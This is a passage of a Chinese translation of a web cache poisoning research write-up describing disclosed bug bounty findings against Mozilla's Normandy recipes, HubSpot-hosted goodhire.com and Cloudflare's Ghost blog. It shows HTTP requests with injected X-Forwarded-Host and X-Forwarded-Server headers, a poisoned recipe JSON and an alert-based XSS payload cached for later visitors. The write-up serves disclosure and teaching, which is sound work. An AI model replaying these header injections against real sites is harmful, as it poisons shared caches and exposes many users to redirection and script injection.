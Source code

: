 `recipes`看起来像：
```
[{
  "id": 403,
  "last_updated": "2017-12-15T02:05:13.006390Z",
  "name": "Looking Glass (take 2)",
  "action": "opt-out-study",
  "addonUrl": "https://normandy.amazonaws.com/ext/pug.mrrobotshield1.0.4-signed.xpi",
  "filter_expression": "normandy.country in  ['US', 'CA']\n && normandy.version >= '57.0'\n)",
  "description": "MY REALITY IS JUST DIFFERENT THAN YOURS",
}]
```
该系统使用NGINX进行缓存，自然很乐意保存我的中毒响应并将其提供给其他用户。Firefox在浏览器打开后不久就会抓取此URL并定期重新获取它，最终意味着所有Firefox的数千万日常用户最终都可能从我的网站上检索`recipes`。

这提供了很多可能性。Firefox使用的`recipes`已[签名](https://github.com/mozilla-services/autograph/tree/master/signer/contentsignature)，所以我不能只安装恶意插件并获得完整的代码执行，但我可以将数千万真正的用户指向我选择的URL。除了显而易见的DDoS使用，如果与适当的内存损坏漏洞相结合，这将是非常严重的。此外，一些后端Mozilla系统使用无符号`recipes`，这可能用于在其基础设施内部获得立足点并可能获得`recipes`签名密钥。此外，我可以重播我选择的旧`recipes`，这可能会强制大规模安装一个旧的已知易受攻击的扩展，或`Mr Robot`预期之外的返回。

我向Mozilla报告了这一点，他们在24小时内修补了他们的基础设施，但是对于严重程度存在一些分歧，因此只获得了1000美元的奖励。

### 路径中毒
有些应用程序不仅愚蠢地使用标头生成URL，而且愚蠢地将它们用于内部请求路由：
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: canary

HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
…
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
Goodhire.com显然托管在HubSpot上，而HubSpot正在为主机头提供X-Forwarded-Server头优先级，并且对此请求的目标客户端感到困惑。虽然我们的输入反映在页面中，但它是HTML编码的，所以直接的XSS攻击在这里不起作用。要利用这一点，我们需要转到hubspot.com，将自己注册为HubSpot客户端，在HubSpot页面上放置一个有效Payload，然后最终欺骗HubSpot在goodhire.com上提供此响应：
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com

HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```
Cloudflare愉快地缓存了此响应，并将其提供给后续访问者。Inflection将此报告传递给HubSpot，HubSpot通过永久禁止我的IP地址来解决问题。经过一些鼓励，他们还修补了漏洞。

像这样的内部错误路由漏洞在SaaS应用程序中特别常见，在这些应用程序中，单个系统处理针对许多不同客户的请求。

### 隐藏的路径中毒
路由中毒漏洞并不总是那么明显：
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: canary

HTTP/1.1 302 Found
Location: https://ghost.org/fail/ 
```
Cloudflare的博客由Ghost托管，他们显然正在使用X-Forwarded-Host标头。您可以通过指定另一个可识别的主机名（例如blog.binary.com）来避免“失败”重定向，但这只会导致神秘的10秒延迟，然后是标准的blog.cloudflare.com响应。乍一看，没有明确的方法来利用这一点。

